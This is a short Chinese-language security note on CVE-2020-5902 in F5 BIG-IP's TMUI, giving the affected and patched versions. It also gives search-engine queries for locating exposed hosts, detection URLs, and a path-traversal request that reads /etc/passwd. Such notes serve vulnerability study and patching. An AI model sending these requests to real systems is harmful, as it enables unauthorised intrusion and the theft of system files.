 ```yaml
---
title: cve-2020-5902
tags: 安全
---
```


[toc]

*`警告,用于学习,切勿做破坏,造成的后果本人概不负责`*

> 2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。
>
> 未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

# 漏洞详情

`F5 BIG-IP` 是美国`F5`公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。

在 `F5 BIG-IP` 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

# 影响版本

- BIG-IP 15.x: 15.1.0/15.0.0
- BIG-IP 14.x: 14.1.0 ~ 14.1.2
- BIG-IP 13.x: 13.1.0 ~ 13.1.3
- BIG-IP 12.x: 12.1.0 ~ 12.1.5
- BIG-IP 11.x: 11.6.1 ~ 11.6.5

# 修复建议

升级到以下版本

- BIG-IP 15.x: 15.1.0.4
- BIG-IP 14.x: 14.1.2.6
- BIG-IP 13.x: 13.1.3.4
- BIG-IP 12.x: 12.1.5.2
- BIG-IP 11.x: 11.6.5.2

# 目标搜索

> 注：请将下面的%26替换为&
>
> **shodan**
>  http.favicon.hash:-335242539
>
> http.title:"BIG-IP%26reg;- Redirect"
>
> **fofa**
>  title="BIG-IP%26reg;- Redirect"
>
> **censys**
>  443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5
>
> 443.https.get.title:"BIG-IP%26reg;- Redirect"
>
> **google**
>  inurl:"tmui/login.jsp"
>
> intitle:"BIG-IP" inurl:"tmui"

# 漏洞检测

```http
/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=a
```

# 利用

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

